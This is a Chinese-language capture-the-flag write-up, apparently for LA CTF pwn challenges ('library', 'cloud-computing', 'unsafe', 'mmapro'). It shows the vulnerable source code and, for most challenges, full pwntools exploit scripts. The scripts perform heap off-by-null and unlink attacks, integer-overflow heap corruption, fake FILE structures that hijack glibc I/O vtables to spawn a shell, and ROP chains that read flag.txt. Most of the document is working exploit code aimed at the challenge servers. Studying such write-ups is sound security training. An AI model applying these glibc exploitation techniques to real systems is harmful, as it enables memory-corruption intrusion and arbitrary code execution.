	int id = read_int();
	if (id < 0 || id >= MAX_BOOKS || !library[id]) {
		puts("invalid book id D:");
		return;
	}
	struct Book *book = library[id];
	if (book->review) {
		puts("this book has already been reviewed");
		printf("would you like to delete the current review? [Y/n] ");
		char buf[0x10];
		read(0, buf, sizeof(buf));
		if (buf[0] == 'y' || buf[0] == 'Y') {
			free(book->review);
			book->review = 0;
		}
		return;
	}
	printf("enter review length: ");
	int len = read_int();
	if (len < 0 || len > 0x10000) {
		puts("invalid review length D:");
		return;
	}
	book->review = malloc(len);
	printf("enter review: ");
	book->review[read(0, book->review, len)] = 0; // off by null
	puts("successfully reviewed book :D");
}

void manage_account()
{
	printf("would you like to update your bio? [Y/n] ");
	char buf[0x10];
	read(0, buf, sizeof(buf));
	if (buf[0] == 'y' || buf[0] == 'Y') {
		printf("enter bio: ");
		read(0, settings->profile+8, 0x10);
	}
	printf("would you like to add your library card? [Y/n] ");
	read(0, buf, sizeof(buf));
	if (buf[0] == 'y' || buf[0] == 'Y') {
		if (settings->card) {
			puts("card already added D:");
			return;
		}
		printf("enter card length: ");
		int len = read_int();
		if (len < 0 || len > 0x100) {
			puts("invalid card length D:");
			return;
		}
		settings->card = malloc(len);
		printf("enter card: ");
		read(0, settings->card, len);
		memcpy(&settings->id, settings->card, 0x10); // 伪造size 需要用
	}
	printf("would you like to recover settings through RAIS? [Y/n]");
	read(0, buf, sizeof(buf));
	if (buf[0] == 'y' || buf[0] == 'Y') {
		char *chunk = malloc(0x69);
		size_t diff1, diff2, diff3;
		diff1 = labs((char*)settings-chunk);
		diff2 = labs((char*)rais1-chunk);
		diff3 = labs((char*)rais2-chunk);
		if (diff2 <= diff1 && diff2 <= diff3)
			settings = rais1;
		else if (diff3 < diff1 && diff3 < diff2)
			settings = rais2;
	}
}

int main()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	settings = malloc(sizeof(struct Settings));
	rais1 = rais2 = settings;
	settings->id = 0;
	memset(settings->profile, 0, sizeof(settings->profile));
	settings->comprehension = 12;
	puts("welcome to the library!");
	puts("here you can use the following commands:");
	puts("\t1) order a book");
	puts("\t2) read a book");
	puts("\t3) review a book");
	puts("\t4) manage account");
	for(;;) {
		printf("choice: ");
		switch(read_int()) {
		case 1:
			order_book();
			break;
		case 2:
			read_book();
			break;
		case 3:
			review_book();
			break;
		case 4:
			manage_account();
			break;
		default:
			puts("invalid command number");
		}
	}
}

```

* 题目本事是提供一个 可以读取文件的操作，但是限制里 读取的长度

```bah
-- 利用思路
review_book() 功能存在 heap 的 off by null 漏洞
可以利用 读取 /proc/self/maps 可以泄露elf的地址，
利用 unlink 攻击 elfbss 上的 settings 指针既可


```

​​

​​

unlink 之后 就有了任意读写的能力

​​

默认只能读0xC 个字节， 利用任意写修改后，发现 flag.txt 读出里一堆没用的东西

后面利用任意写 去 伪造IO getshell,发现flag.txt 文件挺大的 flag在文件的最下面

‍

​​

```python

# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31174'.replace(' ',':')
binary = './library'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
brva 0x014FA
brva 0x01696
brva 0x014B9
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))
io = start([])

def add(text):
    ru(': ')
    sl('1')
    ru('name: ')
    sl(text)
def read_book(idx):
    ru(': ')
    sl('2')
    ru(': ')
    sl(str(idx))

def review_book1(idx,size,text):
    ru(': ')
    sl('3')
    ru(': ')
    sl(str(idx))
    ru('length: ')
    sl(str(size))
    ru(': ')
    s(text)

def review_book2(idx):
    ru(': ')
    sl('3')
    ru(': ')
    sl(str(idx))
    ru('[Y/n] ')
    sl('y')

def manage(bio='A',size=0xf8,card='BB'):
    ru(': ')
    sl('4')
    ru('[Y/n] ')
    sl('Y')
    ru('bio: ')
    sl(bio)
    ru('[Y/n] ')
    sl('Y')
    ru(': ')
    sl(str(size))
    ru(': ')
    sl(card)
    ru('[Y/n]')
    sl('N')

#add('flag')
#review_book1(0,0xd8,'A'*0xd8)
#manage(card=p64(0)+p64(0x1A1))
#read_book(0)


#add('/proc/self/maps')
#add('flag.txt')
#add('flag2')
#review_book1(1,0xd8,'A'*0xd8)
#pause()
#review_book1(2,0x4f8,'B'*0x60)
#pause()
#review_book2(1)
#pause()
#review_book1(1,0xd8,b'\x00'*0xd0+p64(0x1a0))
#
#review_book1(0,0x38,'c'*0x60)
#manage(card=p64(0)+p64(0x1A1))
#read_book(0)
#ru(b'watch out, book incoming!\n')
#
#elf_base = int(rl(),16)
#
#target = elf_base + 0x04260
#
#lss('elf_base')
#fd = target - 0x18
#bk = target - 0x10
#
#pay = p64(fd) + p64(bk)
#ru(': ')
#sl('4')
#ru('[Y/n] ')
#sl('Y')
#ru('bio: ')
#sl(pay)
#ru('[Y/n] ')
#sl('n')
#pause()
##gdb.attach(io,gdbscript)
#review_book2(2)
#read_book(1)


add('/proc/self/maps')
add('/x')
add('/a')
review_book1(1,0xd8,'A'*0xd8)
pause()
review_book1(2,0x4f8,'B'*0x60)
pause()
review_book2(1)
pause()
review_book1(1,0xd8,b'\x00'*0xd0+p64(0x1a0))

review_book1(0,0x38,'c'*0x60)
manage(card=p64(0)+p64(0x1A1))
read_book(0)
ru(b'watch out, book incoming!\n')

elf_base = int(rl(),16)

target = elf_base + 0x04260

lss('elf_base')
fd = target - 0x18
bk = target - 0x10

pay = p64(fd) + p64(bk)
ru(': ')
sl('4')
ru('[Y/n] ')
sl('Y')
ru('bio: ')
sl(pay)
ru('[Y/n] ')
sl('n')
pause()
review_book2(2)
pause()


name = p64(elf_base + 0x04020 - 4)
ru(': ')
sl('4')
ru('[Y/n] ')
sl('Y')
ru('bio: ')
s(name)
ru('[Y/n] ')
sl('n')
ru('[Y/n]')
sl('n')
read_book(0x3f)
ru('the book "')

libc_base = uu64(r(6)) - libc.sym['_IO_2_1_stdout_']
libc.address = libc_base
lss('libc_base')


name1 = p64(elf_base + 0x4068 - 4)
#gdb.attach(io,gdbscript)
ru(': ')
sl('4')
ru('[Y/n] ')
sl('Y')
ru('bio: ')
s(name1)
ru('[Y/n] ')
sl('n')
ru('[Y/n]')
sl('n')
read_book(0x3f)
ru('the book "')
heap_base = uu64(r(6))
lss('heap_base')

add('flag.txt')
review_book1(3,0x200,'ty')
review_book2(3)


target = (heap_base - 0x188) - 0x10

ru(': ')
sl('4')
ru('[Y/n] ')
sl('Y')
ru('bio: ')
s(p64(0)+p64(target))
ru('[Y/n] ')
sl('n')
ru('[Y/n]')
sl('n')
pause()
ru(': ')
sl('4')
ru('[Y/n] ')
sl('Y')
ru('bio: ')
s(p64(libc.sym['_IO_2_1_stdout_']))
ru('[Y/n] ')
sl('n')
ru('[Y/n]')
sl('n')


#gdb.attach(io,'brva 0x01719')
fake_IO_addr = libc.sym['_IO_2_1_stdout_']
pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['system'],
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')
review_book1(3,0x200,pay)


#pause()

#read_book(1)


#manage(bio=pay,card=b'C'*8+p64(0x1A1))


#
#
#add('flag.txt')
#add('flag1.txt')
#add('flag2.txt')
#review_book1(1,0x68,'A'*0x60)
#pause()
#review_book1(2,0x4f8,'B'*0x60)
#pause()
#review_book2(1)


#add('/proc/self/fd/3')


#ru(b'watch out, book incoming!\n')


#pause()
#fd = target
#bk = target
#
#pay  = p64(0) + p64(0x61)
#pay += p64(fd) + p64(bk)
#pay  = pay.ljust(0x60 ,b'\x00')
#pay += p64(0x61)
#review_book1(3,0x68,pay)


#review_book2(0)
#pay = flat({
#},filler=b'\x00')

itr()

```

## cloud-computing

* 源码

```c
#include <algorithm>
#include <cstddef>
#include <cstdlib>
#include <iostream>
#include <memory>
#include <stdexcept>
#include <string_view>

template <typename T> class Cloud {
public:
  Cloud() : rain(), pre(), sat() {}

  Cloud(const Cloud<T> &other) = delete;

  Cloud(Cloud<T> &&other)
      : rain(other.rain), pre(other.precipitation()), sat(other.saturation()) {
    other.rain = nullptr;
    other.pre = other.sat = 0;
  }

  std::size_t precipitation() const { return pre; }

  std::size_t saturation() const { return sat; }

  void forecast(std::size_t new_sat) {
    if (new_sat > saturation()) {
      auto new_rain = nucleate(new_sat);
      std::uninitialized_move_n(rain, precipitation(), new_rain);
      evaporate(rain, precipitation());
      rain = new_rain;
      sat = new_sat;
    }
  }

  T &operator[](std::size_t altitude) {
    if (altitude < precipitation()) {
      return rain[altitude];
    } else {
      throw std::out_of_range("ಠ_ಠ");
    }
  }

  void pour(T drop) {
    if (precipitation() == saturation()) {
      forecast(std::max(saturation() * 2, 1uz));
    }
    std::construct_at(rain + precipitation(), std::move(drop));
    ++pre;
  }

  Cloud<T> &operator=(const Cloud<T> &other) = delete;

  Cloud<T> &operator=(Cloud<T> &&other) = delete;

  ~Cloud() { evaporate(rain, precipitation()); }

private:
  T *rain;
  std::size_t pre, sat;

  static T *nucleate(std::size_t volume) {
    auto water = std::aligned_alloc(alignof(T), sizeof(T) * volume);
    if (!water) {
      throw std::runtime_error("low humidity");
    }
    return static_cast<T *>(water);
  }

  static void evaporate(T *rain, std::size_t mass) {
    std::destroy_n(rain, mass);
    std::free(rain);
  }
};

template <typename T> T absorb(std::string_view moisture = "") {
  std::cout << moisture;
  T h2o{};
  if (!(std::cin >> h2o)) {
    std::cout << "dehydrated :(\n";
    std::exit(1);
  }
  return h2o;
}

int main() {
  Cloud<Cloud<int>> clouds;

  while (true) {
    for (auto i = 0uz; i < clouds.precipitation(); ++i) {
      std::cout << "cloud " << i
                << ": precipitation = " << clouds[i].precipitation()
                << ", saturation = " << clouds[i].saturation() << ", rain = ";
      for (auto j = 0uz; j < clouds[i].precipitation(); ++j) {
        std::cout << clouds[i][j] << ' ';
      }
      std::cout << '\n';
    }
    std::cout << "0. add cloud\n1. forecast\n2. pour\n3. exit\n";
    auto gauge = absorb<int>("> ");
    switch (gauge) {
    case 0: {
      clouds.pour(Cloud<int>());
    } break;
    case 1: {
      auto cell = absorb<std::size_t>("cell: ");
      auto sat = absorb<std::size_t>("saturation: ");
      clouds[cell].forecast(sat);
    } break;
    case 2: {
      auto cell = absorb<std::size_t>("cell: ");
      auto drop = absorb<int>("drop: ");
      clouds[cell].pour(drop);
    } break;
    default:
      return 0;
    }
  }
}

```

从源码不太能看出漏洞

‍

​​

‍

例如oldsize 是 0x208, if 判读的时候 newsize 是 `0x4000000000000040`​ 大于 old size,然后进入分配内存分支

但是在调用 `aligned_alloc`​ 时，它会 把 newsize * 4  这就会导致 数据溢出 只保留了 0x100,

然后执行到这里就会 出现堆溢出的漏洞 `memmove(new_ptr, old_ptr, old_use_size);`​

```python
>>> old_size = 0x208
>>> new_size = 0x10000000000000100 / 4
>>> hex(new_size)
0x4000000000000040
>>> hex((0x4000000000000040 * 4) & ((1<<64)-1))
0x100

# 
```

‍

* 注意 每次发送的数值貌似 不能超过 `0x7FFFFFFF`​ 不然会报错退出
* 所以需要一点概率，不能分段发送这样的  `0x75aa aFFFFFFF`​

‍

* exploit

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31234'.replace(' ',':')
binary = './chall'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#impor socks
#context.proxy = (socks.SOCKS5, '192.168.31.253', 10808)

gdbscript = '''
brva 0x014F5
brva 0x01338
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))
def add_cloud():
    ru('> ')
    sl('0')

# malloc ptr
def forecast(idx, size): 
    ru('> ')
    sl('1')
    ru('cell: ')
    sl(str(idx))
    ru('saturation:')
    sl(str(size//4))


# write p32
#def pour(idx,data):
def edit(idx,data):
    ru('> ')
    sl('2')
    ru('cell: ')
    sl(str(idx))
    ru('drop: ')
    sl(str(data))

for i in range(1000):
    io = start([])

    # add cloud

    try:
        add_cloud()
        add_cloud()
        add_cloud()
        add_cloud()

        forecast(0,0x208)
        forecast(1,0x108)
        forecast(2,0x108)
        forecast(3,0x108)

        # re cloud
        add_cloud() # 4
        forecast(2,0x118)
        #
        #forecast(4,0x118)
        #
        for i in range(0x100//4):
            edit(0,i)

        #  exp
        edit(0,0xbeef)
        edit(0,0xbeef)
        edit(0,0x511)


        add_cloud() # 5
        add_cloud() # 6
        forecast(5,0x200)
        forecast(6,0x200)


        forecast(0,0x10000000000000000+0x108)

        forecast(3, 0x128)

        edit(2, 0xbeef11)
        edit(2, 0xbeef22)

        add_cloud() # 7
        forecast(7,0x1d0)

        # leak libc
        ru('cloud 2: ')
        ru('rain = ')
        x =  rl().strip().split(b' ')
        libc_base = int(x[0]) + (int(x[1])<<32) - 0x203b20

        lss('libc_base')

        forecast(3,0x138)
        forecast(3,0x238)

        # leak heap
        ru('cloud 2: ')
        ru('rain = ')
        x =  rl().strip().split(b' ')
        key = int(x[0]) + (int(x[1])<<32)
        heap_base = key << 0xC

        lss('key')
        lss('heap_base')

        forecast(1,0x1d8)
        #edit(1,0x1234)

        add_cloud() # 8
        forecast(8,0x1e8)

        forecast(8,0x218)
        forecast(1,0x218)


        libc.address = libc_base
        target = (libc.sym['_IO_2_1_stderr_']-0x30) ^ key
        t1 = target & 0xFFFFFFFF
        t2 = target >> 0x20

        for i in range(6):
            edit(5,0x4321)

        edit(5,0x1f0)
        edit(5,0)

        edit(5,t1)
        edit(5,t2)

        add_cloud() # 9
        add_cloud() # 10

        forecast(9 , 0x1e8)
        forecast(10, 0x1e8)

        _stderr = libc.sym['_IO_2_1_stderr_']

        fake_IO_addr = _stderr

        pay = flat({
            0x00: 0,
            0x18: libc.sym['setcontext']+61, # CALL1
            0x68: next(libc.search(b'/bin/sh')), # CALL1
            0xa0: fake_IO_addr-0x30,
            0xa8: libc.sym['setcontext'] + 334, # CALL2 # ret 调整 stack, 然后 system
            0x88: fake_IO_addr,
            0xc0: 1,                # mode
            0xe0-0x30: fake_IO_addr,
            #0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
            0xd8: libc.sym['_IO_wfile_jumps']-0x30+0x10,
            },filler=b'\x00')

        p1  = p64(libc.sym['system']) * 2 + p64(libc.sym['_IO_2_1_stderr_']) + p64(1) + p64(fake_IO_addr) + p64(0)
        p1 += pay


        #pause()
        for i in range(0,len(p1),4):
            d1 = u32(p1[i:i+4])
            edit(10,d1)
    except:
        io.close()
        continue
    ru('> ')
    sl('1')
    ru('cell: ')
    sl('a')
    sleep(0.1)
    sl('ls')
    sl('\ncat flag.txt\n')
    sleep(0.1)
    print(io.recv())
    print(io.recv())
    print(io.recv())
    print(io.recv())
    print(io.recv())
    exit(0)
#target = heap_base + 0xef0
#
#t1 = target & 0xFFFFFFFF
#t2 = target >> 0x20
#edit(10,t1)
#edit(10,t2)
#
#
#fake_IO_addr = heap_base + 0xef0
#fake_IO_addr = target
#
#RCE  = 0x111
#RCE2 = 0x222

#pay = flat({
#    0x00: 0,
#    0x20: fake_IO_addr,
#    0x28: 0xff,
#    0x60: RCE,
#    0x68: 0,          # rdi
#    0x70: fake_IO_addr, # rsi
#    0x88: fake_IO_addr, # rdx
#    0xA0: fake_IO_addr,
#    0xA8: RCE2,
#    0xC0: 1, # mode
#    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30, # vtable # 可以控制虚表的走向
#    #0xe0: fake_IO_addr + 0x48,
#}, filler=b"\x00")

#pay = flat({
#    0x00: 0,
#    0x18: libc.sym['setcontext'] + 61, # CALL1
#    0x68: next(libc.search(b'/bin/sh')), # CALL1
#    0xa0: fake_IO_addr-0x30,
#    0xa8: libc.sym['setcontext'] + 334, # CALL2 # ret 调整 stack, 然后 system
#    0x88: fake_IO_addr,
#    0xc0: 1,                # mode
#    0xe0-0x30: fake_IO_addr,
#    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
#},filler=b'\x00')

#print('start write payload....')
#
#lss('key')
#lss('heap_base')
#
#gdb.attach(io,'''
#b exit*
#b *_IO_flush_all
#
#'''
#)

```

‍

* 打远程太慢了，跑了好久才出来

​​

‍

## unsafe

‍

* 源码 unsage.ml

```python
let vuln arr size =
  let rec get_data i = 
    print_endline "input index-value pairs please";
    let index = read_int () in
    let value = read_int () in
      match i with
      | 0 -> ()
      | 10 -> Array.unsafe_set arr index value; get_data (i-1) # 第一次可以任意偏移写 size_t
      | _ -> Array.set arr index value; get_data (i-1) # 后面的就只能在 5 以内了
    in
  get_data size;
  print_endline "leggo"

let leak arr =
  print_endline "leak where";
  let index = read_int () in
  Array.unsafe_get arr index

let main () =
  let arr = Array.make 5 0 in
  print_endline "are you readyyy";
  print_endline ("leakk 1: " ^ string_of_int (leak arr)); # 两次任意偏移泄露
  print_endline ("leakk 2: " ^ string_of_int (leak arr)); # 两次任意偏移泄露
  vuln arr 10;
  print_endline "i wonder if you won"

let () = main ()
```

‍

这题比较玄学，两次任意偏移泄露出的地址 是 `leak = leakkdata / 2`​

输入的数据也要 `/`​

‍

思路

```bash
arr 的地址 和 libc 是有固定偏移的

- 两次任意偏移泄露
 - 泄露 environ 的地址
 - 然后 泄露 libc 的地址

然后就是一次任意写 （由于已经知道 stack 和 libc 的地址 我们就可以计算它的差值）
修改stack返回地址 可以改成 pop rsp ;ret (返回地址下面就是 arr 数组的位置) 
然后就可以rop 了
```

​​

‍

* 坑点1

arr 距离 libcbase 的地址 本地和远程是不一样的，这个就需要调试了

例如 远程恰好泄露的是 libc 只读段里的数据

​

然后远程泄露出来的 是 `1051808`​ 那我们就利用 search 搜索大概位置 然后就可以确定 offset

​​

* 坑点2

远程 我尝试 使用 system，mprotect  和 puts  都没用正常 执行

后通过 gets  构造 ORW ROP 才成功 get flag

‍

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31271'.replace(' ',':')
binary = './chall'
#binary = './run'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
brva 0x020490
brva 0x02044D
brva 0x02044D
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))
#for i in range(10000):
#    try:
#        io = start([])
#        ru('leak where\n')
#        #offset = (2094064//8) - 7 + i
#        offset = (2090000//8) - 7 + i
#        sl(str(offset))
#        ru('leakk 1: ')
#        elf_addr = int(rl())
#        if elf_addr == 1357209388780:
#            lss('elf_addr')
#            lss('i')
#            itr()
#        io.close()
#    except:
#        pass
#
io = start([])
#cmd = 'chroot --userspec=0:0 ./docker /run'
#io = process(cmd.split(' '))

remote_offset = (0x1ff370 - 0x1fafe0) // 8
local_ooffset = (0x1ff3f0 - 0x38) // 8

offset = local_ooffset
#offset = remote_offset
lss('offset')

stack_offset = offset + (libc.sym['environ'] // 8)
ru('leak where\n')
sl(str(stack_offset))
ru('leakk 1: ')

stack_addr = int(rl()) * 2
lss('stack_addr')

libc_offset = offset + (libc.sym['_IO_list_all'] // 8)
ru('leak where\n')
sl(str(libc_offset))
ru('leakk 2: ')

libc_base = int(rl()) * 2 - libc.sym['_IO_2_1_stderr_']
lss('libc_base')


libc.address = libc_base
#gdb.attach(io,gdbscript=gdbscript)

ru(b'input index-value pairs please\n')

#pop_rsp = libc_base + 0x00000000001109ae
#pop_rsp = libc_base + 0x000000000003c058 -2
pop_rsp = libc_base + 0x000000000002a773
pop_rdi = libc_base + 0x000000000010f75b
pop_rdi_rbp = libc_base + 0x000000000002a873
ret = stack_addr - 560
lss('ret')
pause()
ret_offset = offset + (ret - libc_base) // 8
sl(str(ret_offset))
sleep(0.1)
sl(str(pop_rsp//2))
#sl(str((libc_base + 0x02882f)//2))
#sl(str(pop_rsp//2))

rop = [2] * 9

x = -1
x+=1;rop[x] = libc.bss() + 0x800
x+=1;rop[x] = pop_rdi
x+=1;rop[x] = (libc_base - (offset*8))
x+=1;rop[x] = libc.sym['gets']
#x+=1;rop[x] = libc.sym['system']
print(rop)
for i in range(len(rop)):
    ru(b'input index-value pairs please\n')
    if i > 4:
        sl('4')
    else:
        sl(str(i))
    sleep(0.1)
    sl(str(rop[i]//2))


ru(b'input index-value pairs please\n')
sl('4')
sl('0')
pause()


g1      =libc_base + 0x00000000000586d4 # pop rbx ; ret
g2      =libc_base + 0x00000000000b0123 # mov rdx, rbx ; pop rbx ; pop r12 ; pop rbp ; ret
pop_rsi =libc_base + 0x0000000000110a4d # pop rsi ; ret
pop_rsi =libc_base + 0x000000000010f759 # pop rsi ; pop r15 ; ret
pop_rax = libc_base + 0x00000000000dd237

xx = libc_base - (offset*8)

sc = '''
loop:
    jmp loop
'''

pay  = b'A' * 7
pay += b'B' * 0x18
pay += p64(pop_rax) + p64(2) + p64(pop_rdi) + p64(xx+0xb8+0xa0) + p64(pop_rsi) + p64(0) * 2
pay += p64(g1) + p64(0) + p64(g2) + p64(0) * 3
pay += p64(libc.sym['read']+15)

# write
pay += p64(pop_rdi)
pay += p64(3)
pay += p64(pop_rsi) 
pay += p64(libc.bss()) * 2
pay += p64(g1) + p64(0x100) + p64(g2) + p64(0) * 3
pay += p64(libc.sym['read'])


# write
pay += p64(pop_rdi)
pay += p64(1)
pay += p64(pop_rsi) 
pay += p64(libc.bss()) * 2
pay += p64(g1) + p64(0x100) + p64(g2) + p64(0) * 3
pay += p64(libc.sym['write'])
pay += p64(xx+0x100)
pay += b'./flag.txt'
pay += b'\x00' * 0x200
pay += asm(sc)
sl(pay)
#for i in range(1,11):
#    ru(b'input index-value pairs please\n')
#    sl(str(i%5))
#    sleep(0.1)
#    sl(str(rop[i]))

itr()

#lss('elf_addr')
#lss('libc_addr')
#ru('leak where\n')
#sl(str(51))
#gdb.attach(io)
#ru('leak where\n')
#sl(str(0x10))
#ru('leak where\n')
#sl(str(0x42424242))


#pay = flat({
#},filler=b'\x00')
#gdb.attach(io,gdbscript)


```

## mmapro

‍

‍

* 爆破脚本

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31179'.replace(' ',':')
binary = './mmapro'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))
#pay = flat({
# ► 0x629ebacb8227 <main+142>    call   mmap@plt                    <mmap@plt>
#         addr: 0
#         len: 1
#         prot: 2
#         flags: 3
#         fd: 4
#         offset: 5
#lll = 0x10000 + 0x1000 * 8
for i in range(100):
    print(i)
    io = start([])
    libc_base = uu64(r(8)) - libc.sym['mmap']
    target = (libc_base + libc.sym['mmap'])
    aa = (target>>0xc<<0xc)
    pay  = p64(aa) # addr
    pay += p64(0x1000*i+(aa-libc_base)) # length
    pay += p64(7) # prot
    pay += p64(1 | 0x20 | 0x10) # flags
    #pay += p64(2) # flags
    pay += p64(0x414141414141) # fd
    pay += p64(0) # offset


    #pay = flat([0,0x50,7,2,0,0])
    #},filler=b'\x00')
    gdb.attach(io,f'''c''')
    sl(pay)

    itr()
```

‍

‍

* i = 87 的时候  这个 0x31 其实就 mmap 的 flags 位置

​​

‍

* 后面就是 慢慢调整数据了

‍

* exploit

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31179'.replace(' ',':')
binary = './mmapro'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
brva 0x001227
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))
#mmap = libc.sym['mmap']
#rop = ROP(libc)
#xx = rop.find_gadget(['add rsp, 0x20'])
#print(xx)
##for i in xx:
##    if ((i & 0xff) == 0x31 and i < mmap):
##        print('yes')
#
#exit()
io = start([])
libc_base = uu64(r(8)) - libc.sym['mmap']
#pay = flat({
# ► 0x629ebacb8227 <main+142>    call   mmap@plt                    <mmap@plt>
#         addr: 0
#         len: 1
#         prot: 2
#         flags: 3
#         fd: 4
#         offset: 5
#lll = 0x10000 + 0x1000 * 8
target = (libc_base + libc.sym['mmap'])
offset = 0
aa = (target>>0xc<<0xc) - offset
pay  = p64(aa) # addr
pay += p64(0x1000*87 + offset) # length
pay += p64(7) # prot
#pay += p64(libc_base + 1 | 0x20 | 0x10) # flags
#pay += p64(libc_base +0x22000+ 0x31+0x600) # flagsZZ
pay += p64(libc_base +0x22000+ 0x31+0x600) # flagsZZ
libc.address = libc_base
pay += p64(libc.sym['gets']) # fd
pay += p64(libc_base+0x22000) # offset
